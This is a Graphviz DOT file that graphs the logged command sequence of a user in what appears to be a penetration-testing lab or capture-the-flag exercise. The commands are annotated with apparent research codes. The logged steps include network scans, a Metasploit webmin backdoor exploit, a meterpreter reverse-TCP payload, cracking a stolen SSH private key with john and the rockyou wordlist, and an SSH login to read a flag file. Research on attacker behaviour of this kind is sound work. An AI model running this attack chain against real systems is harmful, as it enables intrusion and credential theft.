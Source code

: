 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A V0 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="ip a U"]
	9 [label="set LHOST 10.1.135.83 M6 "]
	10 [label="show options V5 "]
	11 [label="set RHOSTS 172.18.1.5 V6 "]
	12 [label="exploit V8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 V6 "]
	16 [label="use exploit/multi/script/web_delivery V8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options V5 "]
	20 [label="set target linux A6 "]
	21 [label="show options V5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options V5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options V5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options V5 "]
	31 [label="run V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	33 [label="run V8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run V8 "]
	36 [label="nmap 172.18.1.5/12 -p- V0 "]
	37 [label="sessions 3 U"]
	38 [label="sessions U"]
	39 [label="sessions -u ~ U"]
	40 [label="sessions -u 3 U"]
	41 [label="sessions 3 U"]
	42 [label="nmap 172.18.1.5/24 -p- V0 "]
	43 [label="sessions 4 U"]
	44 [label="sessions U"]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	46 [label="ip a U"]
	47 [label="ip route U"]
	48 [label="sessions 3 U"]
	49 [label="sessions 4 U"]
	50 [label="sessions U"]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	52 [label="curl 81.2.195.254 U"]
	53 [label="ping 10.1.18.22 U"]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	62 [label="cd U"]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa V13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve V13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	72 [label="ssh eve@10.1.17.4 V16 "]
	73 [label="ls -la A10 "]
	74 [label="cd top-secret/ U"]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	77 [label="sessions 5 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	rankdir=LR
}
